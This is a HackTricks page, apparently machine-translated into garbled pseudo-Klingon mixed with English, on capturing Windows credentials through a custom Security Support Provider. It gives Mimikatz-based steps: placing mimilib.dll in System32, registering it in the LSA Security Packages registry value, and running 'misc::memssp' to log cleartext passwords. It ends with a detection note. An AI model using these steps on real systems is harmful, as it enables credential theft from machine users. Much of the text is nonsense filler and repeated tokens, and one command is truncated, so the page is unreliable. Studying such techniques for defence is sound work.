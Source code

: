 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> jImej</summary>

Ha'DIbaH HackTricks vItlhutlh:

* **company advertised in HackTricks** be'nal **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) ghaH **Get**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) jImej, [**NFTs**](https://opensea.io/collection/the-peass-family) jImej
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) be'nal [**telegram group**](https://t.me/peass) jImej be'nal **Join** **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) be'nal [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


## Custom SSP

[Learn what is a SSP (Security Support Provider) here.](../authentication-credentials-uac-and-efs.md#security-support-provider-interface-sspi)\
You can create you **own SSP** to **capture** in **clear text** the **credentials** used to access the machine.

### Mimilib

You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**\
Drop the dll in `C:\Windows\System32\`\
Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Security Support Provider list (Security Packages) vItlhutlh `mimilib.dll` QaQ jImej:
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
'ej reboot DaH jImej log 'e' logHommey 'e' C:\Windows\System32\kiwissp.log

### ram

Mimikatz vItlhutlh 'e' ram vItlhutlh 'e' inject. (mey' vItlhutlh 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e' 'e'
```powershell
privilege::debug
misc::memssp
```
### tlhIngan Hol

### QapHa'

Event ID 4657 - `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages` creation/change audited.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>tlhIngan Hol</strong></a><strong>!</strong></summary>

QapHa' HackTricks vItlhutlh:

* QapHa' **loDnI'wI' vItlhutlh HackTricks** be'nal **HackTricks PDF** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) yIlo'!
* **PEASS & HackTricks swag** [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) yIlo'!
* **The PEASS Family** [**The PEASS Family**](https://opensea.io/collection/the-peass-family) yIlo'! [**NFTs**](https://opensea.io/collection/the-peass-family) yIlo'!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

